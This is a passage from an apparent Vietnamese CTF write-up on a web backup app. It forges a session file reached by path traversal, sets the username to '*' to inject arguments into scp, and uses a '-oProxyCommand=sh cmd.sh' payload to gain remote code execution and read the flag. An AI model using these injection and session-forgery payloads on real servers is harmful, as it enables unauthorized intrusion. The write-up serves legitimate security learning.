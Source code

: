 Ok và mình có ý tưởng là sử dụng options ProxyCommand để chạy một lệnh shell từ đó lấy được flag. Mình có thể sử dụng payload như sau ```scp '-oProxyCommand=sh cmd.sh @backup:backup.tar.gz' cmd.sh a@backup:backup.tar.gz``` sở dĩ thêm a@backup:backup.tar.gz vì mình cần có target để chạy. ở đây mình cần 3 tham số nhưng chỉ được truyền vào username nên mình có ý tưởng upload 3 files với 3 tham số đó và dùng asterisk trong username để list 3 file đó ra. 
    
Vậy làm sao để tạo một user mới? Ở đây mình có thể tải lên một file bất kỳ vậy nếu mình upload một file session cookie thì sao. Khi đó ta có thể set cookie có đường dẫn session file là ../files/admin/<tên file> qua đó có thể path traversal đến file json mình mới upload. Ok vậy mình thử upload một file session như sau
    
```json
{
    "cookie": {
        "originalMaxAge": 9999999999997,
        "expires": "2341-10-09T09:09:12.936Z",
        "httpOnly": true,
        "path": "/"
    },
    "username": "winky",
    "flash": [
        "Successfully logged in!"
    ],
    "__lastAccess": 1731943352940
}    
```
    

    
![image](https://hackmd.io/_uploads/Sy5tXgZHkl.png)

Sử dụng script lúc nãy để tạo session id có session file là ../files/admin/fake

![image](https://hackmd.io/_uploads/rJX3QlWBJx.png)

Dán vào browser và mình đã đổi được tên username    
    
![image](https://hackmd.io/_uploads/r13-VebS1x.png)
    
Ok ngon rồi, thì giờ mình sẽ đổi tên thành * để thực hiện argument injection

![image](https://hackmd.io/_uploads/SyE3NxWH1e.png)

Giờ mình sẽ upload lên 3 files trên để thực hiện RCE
    
![image](https://hackmd.io/_uploads/H1Yd5eZByx.png)
    
![image](https://hackmd.io/_uploads/S1Sg9lWrJe.png)

Ấn backup và restore để chạy lệnh scp và ta đã thành công tạo được file a

![image](https://hackmd.io/_uploads/r1_K9xbH1e.png)

OK và mình đã RCE thành công, giờ mình sẽ chạy readflag và lấy kết quả trả về 
Payload : `echo $(/readflag) > b`
    